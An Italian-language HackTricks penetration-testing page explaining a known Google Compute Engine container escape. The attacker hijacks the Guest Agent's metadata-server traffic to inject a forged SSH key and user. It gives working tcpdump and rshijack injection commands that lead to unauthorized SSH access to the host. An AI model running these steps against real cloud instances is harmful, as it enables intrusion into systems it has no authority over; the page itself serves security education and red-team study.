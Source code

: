 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Stato Iniziale

In entrambi i report in cui è specificata questa tecnica, gli attaccanti sono riusciti a ottenere accesso **root** all'interno di un **Docker** container gestito da GCP con accesso alla rete host (e le capacità **`CAP_NET_ADMIN`** e **`CAP_NET_RAW`**).

## Spiegazione dell'Attacco

Su un'istanza di Google Compute Engine, l'ispezione regolare del traffico di rete rivela numerose **richieste HTTP in chiaro** al **metadata instance** a `169.254.169.254`. Il [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), un servizio open-source, effettua frequentemente tali richieste.

Questo agente è progettato per **monitorare le modifiche nei metadati**. In particolare, i metadati includono un **campo per le chiavi pubbliche SSH**. Quando una nuova chiave pubblica SSH viene aggiunta ai metadati, l'agente la **autorizza** automaticamente nel file `.authorized_key`. Può anche **creare un nuovo utente** e aggiungerlo ai **sudoers** se necessario.

L'agente monitora le modifiche inviando una richiesta per **recuperare tutti i valori dei metadati in modo ricorsivo** (`GET /computeMetadata/v1/?recursive=true`). Questa richiesta è progettata per indurre il server dei metadati a inviare una risposta solo se c'è stata una modifica nei metadati dall'ultimo recupero, identificata da un Etag (`wait_for_change=true&last_etag=`). Inoltre, è incluso un parametro di **timeout** (`timeout_sec=`). Se non si verifica alcuna modifica entro il timeout specificato, il server risponde con i **valori invariati**.

Questo processo consente all'**IMDS** (Instance Metadata Service) di rispondere dopo **60 secondi** se non si è verificata alcuna modifica della configurazione, creando una potenziale **finestra per iniettare una risposta di configurazione falsa** all'agente guest.

Un attaccante potrebbe sfruttare questo eseguendo un **attacco Man-in-the-Middle (MitM)**, falsificando la risposta dal server IMDS e **inserendo una nuova chiave pubblica**. Questo potrebbe abilitare l'accesso SSH non autorizzato all'host.

### Tecnica di Fuga

Sebbene l'ARP spoofing sia inefficace sulle reti di Google Compute Engine, una [**versione modificata di rshijack**](https://github.com/ezequielpereira/rshijack) sviluppata da [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) può essere utilizzata per l'iniezione di pacchetti nella comunicazione per iniettare l'utente SSH.

Questa versione di rshijack consente di inserire i numeri ACK e SEQ come argomenti della riga di comando, facilitando la falsificazione di una risposta prima della reale risposta del server Metadata. Inoltre, viene utilizzato un [**piccolo script Shell**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) per restituire un **payload appositamente creato**. Questo payload attiva il Google Guest Agent per **creare un utente `wouter`** con una chiave pubblica specificata nel file `.authorized_keys`.

Lo script utilizza lo stesso ETag per impedire al server Metadata di notificare immediatamente il Google Guest Agent di valori di metadati diversi, ritardando così la risposta.

Per eseguire la falsificazione, sono necessari i seguenti passaggi:

1. **Monitorare le richieste al server Metadata** utilizzando **tcpdump**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Cerca una riga simile a:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Invia i dati di metadata falsi con l'ETAG corretto a rshijack:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Questo passaggio autorizza la chiave pubblica, abilitando la connessione SSH con la corrispondente chiave privata.

## Riferimenti

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
